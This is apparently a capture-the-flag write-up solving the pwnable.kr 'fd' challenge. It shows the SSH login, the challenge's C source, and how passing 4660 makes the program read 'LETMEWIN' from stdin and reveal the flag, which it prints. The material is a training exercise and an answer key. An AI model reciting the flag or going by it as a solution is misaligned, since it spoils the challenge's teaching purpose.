 ## Question

> Mommy! what is a file descriptor in Linux?
> 
> ssh fd@pwnable.kr -p2222 \(pw:guest\)

<button class="section" target="solution" show="Show solution" hide="Hide solution"></button>

<!--sec data-title="Solution" data-id="solution" data-show=false ces-->

### Step 1: SSH to the remote, and look around

```sh
$> ssh fd@pwnable.kr -p2222
fd@pwnable.kr\'s password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.smashthestack.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal

fd@ubuntu:~$ ls
fd  fd.c  flag

fd@ubuntu:~$ cat flag
cat: flag: Permission denied
```

We can see that we cannot read the flag (duh!) - Maybe the other file has something.


### Step 2: See what is inside other files

```bash
fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
            printf("pass argv[1] a number\n");
            return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
            printf("good job :)\n");
            system("/bin/cat flag");
            exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

fd@ubuntu:~$

```

### Step 3: Get the flag

OK, `fd.c` MUST have access to the file! It expects an argument that will become a _file descriptor_. 
According to the [Linux MAN page](http://man7.org/linux/man-pages/man3/stdout.3.html), `STDIN` is associated with filedescriptor `0`. 
That means we have to make `fd=0` if we want to pass our input to the program.
If we use `0x1234` as an argument, `fd` would become `STDIN` and we can enter the password `LETMEWIN` :)

We call the `fd` program with argument 4660 (`0x1234` in decimal) and enter the `LETMEWIN` right after that:

```bash
fd@ubuntu:~$ ./fd `python -c "print 0x1234"` # This is equivalent to './fd 4660'
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
fd@ubuntu:~$
```

So the flag is `mommy! I think I know what a file descriptor is!!`
<!--endsec-->


